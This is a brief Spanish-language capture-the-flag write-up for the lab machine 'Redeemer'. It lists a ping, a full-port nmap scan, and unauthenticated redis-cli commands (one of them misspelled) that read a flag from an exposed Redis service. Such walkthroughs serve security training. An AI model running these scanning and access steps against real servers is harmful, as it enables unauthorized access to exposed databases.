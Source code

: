 Maquina: Redeemer

Autor:

Dificultad: Muy Facil

![Screenshot 2024-11-10 152708](https://github.com/user-attachments/assets/cccd3ab5-8db1-4ca7-98f7-0f707daa2801)

Iniciamos la máquina y verificamos la conexión

ping 10.129.67.78 -c 1

![Screenshot 2024-11-10 153357](https://github.com/user-attachments/assets/bc3f7905-4bd9-48af-b23f-631ced0b2364)

realizamos un escaneo de puertos y servicios

sudo nmap -p- --min-rate 5000 -sV 10.129.67.78

el puerto 6379 perteneciente al servicio Redis está abierto

![Screenshot 2024-11-10 153430](https://github.com/user-attachments/assets/a4ea7c20-5bc2-4301-9b7b-0b07f3bfe8b1)

accedemos a redis

redis-cli -h 10.129.67.78

selec 0

keys *

get flag

![Screenshot 2024-11-10 153903](https://github.com/user-attachments/assets/4a76e29d-7081-4c7e-97ce-bd4573fd6d26)

